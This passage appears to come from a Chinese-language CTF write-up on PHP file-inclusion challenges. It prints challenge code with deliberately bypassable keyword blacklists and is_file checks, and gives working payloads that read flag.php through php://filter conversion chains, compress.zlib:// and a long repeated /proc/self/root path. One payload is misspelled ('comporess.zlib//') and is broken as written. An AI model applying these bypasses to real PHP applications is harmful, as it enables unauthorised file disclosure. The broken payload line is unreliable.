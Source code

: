 还有一些其他的，可以参考[php文档](https://www.php.net/manual/zh/mbstring.supported-encodings.php)

**payload:**

```
file=php://filter/read=convert.quoted-printable-encode/resource=flag.php
file=compress.zlib://flag.php
file=php://filter/read=convert.iconv.utf-8.utf-16le/resource=flag.php
```



## web113

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
?>
```



payload:

> file=comporess.zlib//flag.php

payload:

> file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

**在linux中/proc/self/root是指向根目录的，也就是如果在命令行中输入ls /proc/self/root，其实显示的内容是根目录下的内容.多次重复后可以绕过is_file**



## web114

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
```